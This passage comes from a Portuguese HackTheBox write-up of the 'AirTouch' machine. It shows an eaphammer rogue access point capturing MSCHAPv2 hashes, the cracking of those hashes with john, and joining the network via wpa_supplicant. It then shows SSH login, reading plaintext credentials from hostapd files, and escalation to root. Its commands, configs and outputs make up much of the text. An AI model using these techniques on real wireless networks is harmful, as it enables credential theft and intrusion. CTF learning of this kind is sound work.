                        Now with more fast travel than a next-gen Bethesda game. >:D

                             Version:  1.14.0
                            Codename:  Final Frontier
                              Author:  @s0lst1c3
                             Contact:  gabriel<<at>>transmitengage.com


[?] Am I root?
[*] Checking for rootness...
[*] I AM ROOOOOOOOOOOOT
[*] Root privs confirmed! 8D
[*] Saving current iptables configuration...
[*] Reticulating radio frequency splines...
Error: Could not create NMClient object: Could not connect: No such file or directory.

[*] Using nmcli to tell NetworkManager not to manage wlan0...

100%|███████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:01<00:00,  1.00s/it]

[*] Success: wlan0 no longer controlled by NetworkManager.
[!] The hw_mode specified in hostapd.ini is invalid for the selected channel (g, 44)
[!] Falling back to hw_mode: a
[*] WPA handshakes will be saved to /root/eaphammer/loot/wpa_handshake_capture-2026-04-17-21-55-48-BqO4G0thMviUzENDTRFwkomzFYmPShnb.hccapx

[hostapd] AP starting...

Configuration file: /root/eaphammer/tmp/hostapd-2026-04-17-21-55-48-TBJ93ggGPKNwZcudnqxzxjNMHrLyeCYP.conf
rfkill: Cannot open RFKILL control device
wlan0: interface state UNINITIALIZED->COUNTRY_UPDATE
Using interface wlan0 with hwaddr ac:8b:a9:aa:3f:d2 and ssid "AirTouch-Office"
wlan0: interface state COUNTRY_UPDATE->ENABLED
wlan0: AP-ENABLED


Press enter to quit...

wlan0: STA 28:6c:07:12:ee:a1 IEEE 802.11: authenticated
wlan0: STA c8:8a:9a:6f:f9:d2 IEEE 802.11: authenticated
wlan0: STA c8:8a:9a:6f:f9:d2 IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED c8:8a:9a:6f:f9:d2
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-RETRANSMIT c8:8a:9a:6f:f9:d2
wlan0: CTRL-EVENT-EAP-RETRANSMIT c8:8a:9a:6f:f9:d2
wlan0: STA 28:6c:07:12:ee:f3 IEEE 802.11: authenticated
wlan0: STA 28:6c:07:12:ee:a1 IEEE 802.11: authenticated
wlan0: STA 28:6c:07:12:ee:f3 IEEE 802.11: authenticated
wlan0: STA 28:6c:07:12:ee:f3 IEEE 802.11: associated (aid 2)
wlan0: CTRL-EVENT-EAP-STARTED 28:6c:07:12:ee:f3
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25


mschapv2: Fri Apr 17 21:56:19 2026
	 domain\username:		AirTouch\r4ulcl
	 username:			r4ulcl
	 challenge:			19:71:d4:0a:55:10:57:e9
	 response:			3a:a4:d1:1f:f1:26:fc:c4:0d:80:97:46:a0:07:ce:23:63:8f:6f:fd:42:40:3b:0e

	 jtr NETNTLM:			r4ulcl:$NETNTLM$1971d40a551057e9$3aa4d11ff126fcc40d809746a007ce23638f6ffd42403b0e

	 hashcat NETNTLM:		r4ulcl::::3aa4d11ff126fcc40d809746a007ce23638f6ffd42403b0e:1971d40a551057e9


wlan0: CTRL-EVENT-EAP-FAILURE 28:6c:07:12:ee:f3
wlan0: STA 28:6c:07:12:ee:f3 IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan0: STA 28:6c:07:12:ee:f3 IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan0: CTRL-EVENT-EAP-RETRANSMIT c8:8a:9a:6f:f9:d2
wlan0: STA 28:6c:07:12:ee:f3 IEEE 802.11: deauthenticated due to local deauth request
wlan0: STA 28:6c:07:12:ee:f3 IEEE 802.11: authenticated

[hostapd] Terminating event loop...
[hostapd] Event loop terminated.
[hostapd] Hostapd worker still running... waiting for it to join.

wlan0: interface state ENABLED->DISABLED
wlan0: AP-DISABLED
wlan0: CTRL-EVENT-TERMINATING
nl80211: deinit ifname=wlan0 disabled_11b_rates=0

[hostapd] Worker joined.
[hostapd] AP disabled.

Error: Could not create NMClient object: Could not connect: No such file or directory.

[*] Using nmcli to give NetworkManager control of wlan0...

100%|███████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:01<00:00,  1.00s/it]

[*] Success: wlan0 is now managed by NetworkManager.
```

Em seguida, quebrei a hash com `john`.

```bash {9}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/AirTouch]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "netntlm", but the string is also recognized as "netntlm-naive"
Use the "--format=netntlm-naive" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlm, NTLMv1 C/R [MD4 DES (ESS MD5) 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
laboratory       (r4ulcl)
1g 0:00:00:00 DONE (2026-04-17 19:02) 1.250g/s 116025p/s 116025c/s 116025C/s politik..iceman11
Use the "--show --format=netntlm" options to display all of the cracked passwords reliably
Session completed.
```

Para conectar, foi preciso criar um novo arquivo de configuração.

```bash title="wpa1.conf"
network {
	ssid="AirTouch-Office"
	key_mgmt=WPA-EAP
	eap=PEAP
	identity="Airtouch\r4ulcl"
	password="laboratory"
	phase1="peapver=1"
	phase2="auth=MSCHAPV2"	
}
```

E configurar o `wpa_supplicant` para conectar a nova rede.

```bash
root@AirTouch-Consultant:~/eaphammer# wpa_supplicant -B -c wpa1.conf -i wlan1
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
```

E usar `dhclient` para ganhar um IP na rede.

```bash
root@AirTouch-Consultant:~/eaphammer# dhclient -r && dhclient -v wlan1
Killed old client process
System has not been booted with systemd as init system (PID 1). Can't operate.
Failed to connect to bus: Host is down
System has not been booted with systemd as init system (PID 1). Can't operate.
Failed to connect to bus: Host is down
Internet Systems Consortium DHCP Client 4.4.1
Copyright 2004-2018 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/wlan1/02:00:00:00:01:00
Sending on   LPF/wlan1/02:00:00:00:01:00
Sending on   Socket/fallback
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 3 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 3 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 5 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 9 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 18 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 18 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 11 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 13 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 10 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 14 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 17 (xid=0xdb78581d)
DHCPDISCOVER on wlan1 to 255.255.255.255 port 67 interval 21 (xid=0xdb78581d)
DHCPOFFER of 10.10.10.98 from 10.10.10.1
DHCPREQUEST for 10.10.10.98 on wlan1 to 255.255.255.255 port 67 (xid=0x1d5878db)
DHCPACK of 10.10.10.98 from 10.10.10.1 (xid=0xdb78581d)
hostname: you must be root to change the host name
bound to 10.10.10.98 -- renewal in 344869 seconds.
```

Finalmente ganhei o IP 10.10.10.98. Em seguida usei as credenciais encontradas `remote : xGgWEwqUpfoOVsLeROeG` para me conectar ao gateway.

```bash
root@AirTouch-Consultant:~/eaphammer# ssh remote@10.10.10.1
The authenticity of host '10.10.10.1 (10.10.10.1)' can't be established.
ECDSA key fingerprint is SHA256:/lSCXr95A71FBCcQ9DT1xXMFeCAsLEnCUfSwu/3qPoE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.1' (ECDSA) to the list of known hosts.
remote@10.10.10.1's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

remote@AirTouch-AP-MGT:~$
```

### Shell como root

Verificando permissões **sudo** descobri que não podia usar **sudo**. Olhando os diretórios em `/home` encontrei outro usuário, o `admin`. E ao olhar os processos com `ps aux`, encontrei o `hostapd` rodando como `root`, apontando para os arquivos de configuração.

>[!info] **Hostapd**
>O **hostapd** (Host Access Point Daemon) é um software para sistemas Linux/BSD que transforma placas de rede Wi-Fi em pontos de acesso (hotspots) e servidores de autenticação. Ele permite gerenciar redes **IEEE 802.11**, **WPA/WPA2/WPA3** e atuar como servidor **RADIUS**, ideal para criar roteadores **Wi-Fi** com PCs ou **Raspberry Pi**.

Assim procurei qualquer menção sobre o `admin` nos arquivos de configuração do `hostapd`.

```bash
remote@AirTouch-AP-MGT:/$ grep -r 'admin' /etc/hostapd/
/etc/hostapd/hostapd_wpe.conf.tmp:# text file that could be used, e.g., to populate the AP administration UI with
/etc/hostapd/hostapd_wpe.conf.tmp:# administered bit)
/etc/hostapd/hostapd_wpe.eap_user:"admin"			                MSCHAPV2		"xMJpzXt4D9ouMuL3JJsMriF7KZozm7" [2]
/etc/hostapd/hostapd_wpe2.conf.tmp:# text file that could be used, e.g., to populate the AP administration UI with
/etc/hostapd/hostapd_wpe2.conf.tmp:# administered bit)
```

Lendo o arquivo `/etc/hostapd/hostapd_wpe.eap_user` encontrei as credenciais do `admin` em texto plano.

```bash {9}
# WPE - DO NOT REMOVE - These entries are specifically in here
*		PEAP,TTLS,TLS,FAST
#"t"	    TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2  "t"	[2]

*	PEAP,TTLS,TLS,FAST [ver=1]
#"t"	GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "password" [2]

"AirTouch\r4ulcl"			    MSCHAPV2		"laboratory" [2]
"admin"			                MSCHAPV2		"xMJpzXt4D9ouMuL3JJsMriF7KZozm7" [2]
```

Com isso pude me tornar o `admin`.

```bash
remote@AirTouch-AP-MGT:/$ su admin
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@AirTouch-AP-MGT:/$
```

E o `admin` podia se tornar `root` usando **sudo**. Assim me tornei `root` e peguei a **flag do root**.

```bash {5-7,12}
admin@AirTouch-AP-MGT:/$ sudo -l
Matching Defaults entries for admin on AirTouch-AP-MGT:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on AirTouch-AP-MGT:
    (ALL) ALL
    (ALL) NOPASSWD: ALL
admin@AirTouch-AP-MGT:/$ sudo -i
root@AirTouch-AP-MGT:~# ls
certs  mgt  root.txt  start.sh  wlan_config_aps
root@AirTouch-AP-MGT:~# cat root.txt
1b60483ac751f5adafb630c03c23ff94
root@AirTouch-AP-MGT:~#
```

---
## Conclusão

![[AirTouchFinal.png]]

 Nessa máquina aprendi que a **segmentação de rede (VLANs)** é ineficaz se houver falhas no gerenciamento de identidade e armazenamento de credenciais. Consegui pular da VLAN de Consultor para a de Tablets e, finalmente, para a Corporativa devido à reutilização de senhas e credenciais expostas nos arquivos de configuração dos roteadores. Também foi muito legal poder fazer wifi hacking novamente depois de tanto tempo. 

---
## Fluxo de ataque



